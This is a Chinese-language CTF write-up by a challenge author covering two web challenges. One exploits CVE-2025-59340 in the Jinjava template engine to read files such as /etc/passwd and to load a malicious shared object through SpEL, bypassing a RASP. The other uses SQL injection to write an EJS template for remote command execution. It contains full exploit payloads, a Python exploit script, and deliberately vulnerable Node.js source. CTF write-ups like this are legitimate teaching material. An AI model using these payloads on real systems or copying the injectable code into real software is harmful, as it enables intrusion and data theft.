





菜菜web手第一次给比赛出题，如果题目出的不太好或者有什么问题欢迎加我扣扣(58896863)拷打我
金Java
考点：CVE-2025-59340漏洞复现+RASP绕过
JinJava是一个基于django模板语法的Java 的模板引擎
前段时间出了一个CVE-2025-59340，偶然间看到了，有点意思，所以就拿来出题了。

官方给出的issue描述的很详细：jinjava has Sandbox Bypass via JavaType-Based Deserialization · CVE-2025-59340 · GitHub Advisory Database
这里我们根据issue，通过java.net.URL可以实现任意文件的读取
第一步，构造一个JavaType类型的java.net.URL
{{ ____int3rpr3t3r____.config.objectMapper.getTypeFactory().constructFromCanonical("java.net.URL")) }}
第二步，利用 Jackson 的 ObjectMapper中的readValue来调用java.net.URL的单参数且参数为String的构造方法
{{____int3rpr3t3r____.config.objectMapper.readValue('"file:///etc/passwd"',____int3rpr3t3r____.config.objectMapper.getTypeFactory().constructFromCanonical("java.net.URL"))}}
接着链式调用得到的java.net.URL对象读文件
{{____int3rpr3t3r____.config.objectMapper.readValue('"file:///etc/passwd"',____int3rpr3t3r____.config.objectMapper.getTypeFactory().constructFromCanonical("java.net.URL")).openStream().readAllBytes()}}
第三步，利用 Jackson 的 ObjectMapper中的convertValue将readAllBytes()返回的bytes转换成base64
{{ ____int3rpr3t3r____.config.objectMapper.convertValue(____int3rpr3t3r____.config.objectMapper.readValue('"file:///etc/passwd"',____int3rpr3t3r____.config.objectMapper.getTypeFactory().constructFromCanonical("java.net.URL")).openStream().readAllBytes(),____int3rpr3t3r____.config.objectMapper.getTypeFactory().constructFromCanonical("java.lang.String")) }}

实现任意文件读之后，可以利用file协议来看目录
查看根目录
{{ ____int3rpr3t3r____.config.objectMapper.convertValue(____int3rpr3t3r____.config.objectMapper.readValue('"file:/"',____int3rpr3t3r____.config.objectMapper.getTypeFactory().constructFromCanonical("java.net.URL")).openStream().readAllBytes(),____int3rpr3t3r____.config.objectMapper.getTypeFactory().constructFromCanonical("java.lang.String")) }}

可以看到flag，但是没有权限读，需要RCE后去用readflag读

可以读cmdline或者直接看网站目录，可以看到这里上了Rasp
可以利用任意文件读将Rasp下载下来

这里把能命令执行的函数的办掉了
只是表面办了System#load，但是实际上可以利用Runtime#load或者更底层的方法去加载so，也就是利用比较常见的Rasp绕过方法，通过加载恶意so来绕过Rasp
参考文章：浅谈Java-JNI如何加载动态库时直接执行恶意代码-先知社区
按照上面构造java.net.URL任意文件读取的方法，我们利用SpelExpressionParser来通过SpEL表达式实现任意代码执行
Payload如下
{% set i=____int3rpr3t3r____.config.objectMapper %}{{ i.readValue('{}',i.getTypeFactory().constructFromCanonical("org.springframework.expression.spel.standard.SpelExpressionParser")).parseExpression("T(java.lang.Runtime).getRuntime().load('/app/expe.so')").getValue() }}
接着就是写文件，SpelExpressionParser对表达式有长度限制(10000)，我们需要分段上传
本意是题目不出网，通过写文件的方式去加载so。但是实际比赛的时候题目是出网的，所以可以直接加载远程的so。
完整EXP
1import base64
2import re
3
4import requests
5
6def split_and_encode_file(path: str, chunk_size: int = 600):
7 with open(path, "rb") as f:
8 while True:
9 chunk = f.read(chunk_size)
10 if not chunk:
11 break
12 yield base64.b64encode(chunk).decode("ascii")
13
14path = "exp.so"
15templates = """{% set i=____int3rpr3t3r____.config.objectMapper %}{{ i.readValue('{}',i.getTypeFactory().constructFromCanonical("org.springframework.expression.spel.standard.SpelExpressionParser")).parseExpression("T(java.nio.file.Files).write(T(java.nio.file.Paths).get('expe.so'), T(java.util.Base64).getDecoder().decode('content'),T(java.nio.file.StandardOpenOption).CREATE,T(java.nio.file.StandardOpenOption).APPEND)").getValue() }}"""
16
17burp0_url = "http://ip:port/"
18
19for idx, part in enumerate(split_and_encode_file(path, chunk_size=7000)):
20 template = templates.replace("content",part)
21 burp0_data = {"name": template}
22 post = requests.post(burp0_url, data=burp0_data)
23 # print(post.text)
24
25payload = """{% set i=____int3rpr3t3r____.config.objectMapper %}{{ i.readValue('{}',i.getTypeFactory().constructFromCanonical("org.springframework.expression.spel.standard.SpelExpressionParser")).parseExpression("T(java.lang.Runtime).getRuntime().load('/app/expe.so')").getValue() }}"""
26post = requests.post(burp0_url, data={"name": payload})
27# print(post.text)
28payload = """{% set i=____int3rpr3t3r____.config.objectMapper %}{{ i.convertValue(i.readValue('"file:///tmp/123"',i.getTypeFactory().constructFromCanonical("java.net.URL")).openStream().readAllBytes(),i.getTypeFactory().constructFromCanonical("java.lang.String")) }}"""
29post = requests.post(burp0_url, data={"name": payload})
30
31base = re.search(r'<div>Hello,\s*(.*?)</div>', post.text).group(1)
32print("FLAG："+ base64.b64decode(base).decode())
ez_signin
这道题是我在大半年前还是大一的时候出的，本意是作为一道简单签到题的，因为没有比较困难或者比较新的考点，都是一些常规的利用，但是没想到解题数相对较少。


拿到题目是一个登录/注册
注册的用户没有权限，可以在登陆处直接万能密码登录到admin

登进去之后是一个文件列表，下载处存在目录穿越

目录穿越有waf，但是不是很严格，可以直接../app.js读上层目录拿源码
1const express = require('express');
2const session = require('express-session');
3const sqlite3 = require('sqlite3').verbose();
4const path = require('path');
5const fs = require('fs');
6
7const app = express();
8const db = new sqlite3.Database('./db.sqlite');
9
10/*
11FLAG in /fla4444444aaaaaagg.txt
12*/
13
14app.use(express.urlencoded({ extended: true }));
15app.use(express.static(path.join(__dirname, 'public')));
16app.use(session({
17 secret: 'welcometoycb2025',
18 resave: false,
19 saveUninitialized: true,
20 cookie: { secure: false }
21}));
22
23app.set('views', path.join(__dirname, 'views'));
24app.set('view engine', 'ejs');
25
26
27const checkPermission = (req, res, next) => {
28 if (req.path === '/login' || req.path === '/register') return next();
29 if (!req.session.user) return res.redirect('/login');
30 if (!req.session.user.isAdmin) return res.status(403).send('无权限访问');
31 next();
32};
33
34app.use(checkPermission);
35
36app.get('/', (req, res) => {
37 fs.readdir(path.join(__dirname, 'documents'), (err, files) => {
38 if (err) {
39 console.error('读取目录时发生错误:', err);
40 return res.status(500).send('目录读取失败');
41 }
42 req.session.files = files;
43 res.render('files', { files, user: req.session.user });
44 });
45});
46
47app.get('/login', (req, res) => {
48 res.render('login');
49});
50
51app.get('/register', (req, res) => {
52 res.render('register');
53});
54
55app.get('/upload', (req, res) => {
56 if (!req.session.user) return res.redirect('/login');
57 res.render('upload', { user: req.session.user });
58 //todoing
59});
60
61app.get('/logout', (req, res) => {
62 req.session.destroy(err => {
63 if (err) {
64 console.error('退出时发生错误:', err);
65 return res.status(500).send('退出失败');
66 }
67 res.redirect('/login');
68 });
69});
70
71app.post('/login', async (req, res) => {
72 const username = req.body.username;
73 const password = req.body.password;
74 const sql = `SELECT * FROM users WHERE (username = "${username}") AND password = ("${password}")`;
75 db.get(sql,async (err, user) => {
76 if (!user) {
77 return res.status(401).send('账号密码出错！！');
78 }
79 req.session.user = { id: user.id, username: user.username, isAdmin: user.is_admin };
80 res.redirect('/');
81 });
82});
83
84
85
86app.post('/register', (req, res) => {
87 const { username, password, confirmPassword } = req.body;
88
89 if (password !== confirmPassword) {
90 return res.status(400).send('两次输入的密码不一致');
91 }
92
93 db.exec(`INSERT INTO users (username, password) VALUES ('${username}', '${password}')`, function(err) {
94 if (err) {
95 console.error('注册失败:', err);
96 return res.status(500).send('注册失败，用户名可能已存在');
97 }
98 res.redirect('/login');
99 });
100});
101
102app.get('/download', (req, res) => {
103 if (!req.session.user) return res.redirect('/login');
104 const filename = req.query.filename;
105 if (filename.startsWith('/')||filename.startsWith('./')) {
106 return res.status(400).send('WAF');
107 }
108 if (filename.includes('../../')||filename.includes('.././')||filename.includes('f')||filename.includes('//')) {
109 return res.status(400).send('WAF');
110 }
111 if (!filename || path.isAbsolute(filename) ) {
112 return res.status(400).send('无效文件名');
113 }
114 const filePath = path.join(__dirname, 'documents', filename);
115 if (fs.existsSync(filePath)) {
116 res.download(filePath);
117 } else {
118 res.status(404).send('文件不存在');
119 }
120});
121
122
123
124const PORT = 80;
125app.listen(PORT, () => {
126 console.log(`Server running on http://localhost:${PORT}`);
127});
可以看到upload是没有ejs文件的

而且在login和register处是存在sql注入的
但是这里有一个坑就是login处的db.get函数不支持执行多条sql语句，也就是说不能堆叠注入。而在register处的db.exec是支持的。
所以我们可以在register处通过sqlite创建数据库文件的方式，去写ejs模板，打ejs模板渲染
payload
admin');ATTACH DATABASE '/app/views/upload.ejs' AS shell;create TABLE shell.exp (payload text); insert INTO shell.exp (payload) VALUES ('<h1><%- include("/fla4444444aaaaaagg.txt"); %></h1>');/*

也可以直接RCE去读
123');ATTACH DATABASE '/app/views/upload.ejs' AS shell;create TABLE shell.exp (payload text); insert INTO shell.exp (payload) VALUES ('<h1><%=process.mainModule.require("child_process").execSync("cat /fla4444444aaaaaagg.txt") %></h1>');/*